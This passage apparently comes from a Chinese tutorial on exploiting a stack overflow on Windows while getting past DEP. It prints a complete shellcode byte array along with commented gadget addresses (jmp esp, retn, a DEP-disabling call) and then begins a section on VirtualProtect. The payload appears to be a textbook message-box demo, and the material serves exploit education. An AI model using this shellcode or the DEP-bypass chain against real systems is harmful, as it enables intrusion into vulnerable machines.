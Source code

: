 	"\xe9\x37\xff\xff"// jmp

	"\xff\x90\x90\x90"

凑够16个字节。

再运行就可以看到

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hk\x835ccj2064052746.jpg>)

完整的shellcode

	char shellcode[]=

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"

	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"

	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"

	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"

	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"

	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"

	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"

	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"

	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"

	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"

	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"

	"\xA0\xC1\x80\x7C"//MOV al,1

	"\x95\x8b\x1d\x5d"//ebp

	"\x31\xf7\x80\x7c"//retn 0x28

	"\x87\xa7\x64\x7d"// jmp esp

	"\x24\xbe\x93\x7c"// DEP

	"\xe9\x37\xff\xff"// jmp

	"\xff\x90\x90\x90"

	;

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hllrva6rj20fr0gjab9.jpg>)

这个就是整个程序的跳转流程。

### **利用VirtualProtect**

在Optout和AlwaysON模式下所有进程是默认开启DEP，如果一个程序自身偶尔需要从堆栈中取指令，会发生错误。为了解决这个问题微软提供了修改内存属性的VirtualProtect函数，该函数位于kernel32.dll。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1ii6fiuvxj20l109742u.jpg>)

